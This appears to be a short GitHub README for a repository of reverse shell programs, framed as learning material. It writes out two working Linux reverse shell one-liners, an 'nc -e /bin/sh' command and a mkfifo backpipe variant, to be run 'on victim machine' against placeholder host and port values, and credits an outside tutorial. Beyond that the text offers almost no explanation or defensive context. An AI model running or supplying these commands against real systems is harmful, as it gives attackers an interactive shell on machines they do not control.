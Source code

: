 # Reverse_shell

Reverse shell programs on Windows and Linux for learning.

To make simple reverse shell on linux, run like this↓ on victim machine
```
nc -e /bin/sh <HOST> <PORT>
```
However, newer linux don't have -e option of ```nc``` command, so
create "backpipe" with ```mkfifo``` in ```/tmp``` instead(pretty much any account is allowed to write there.)

```
mkfifo /tmp/p; nc <HOST> <PORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```
### Credit:
[cocomelonc](https://github.com/cocomelonc/)

Thank you for nice article!!
https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html



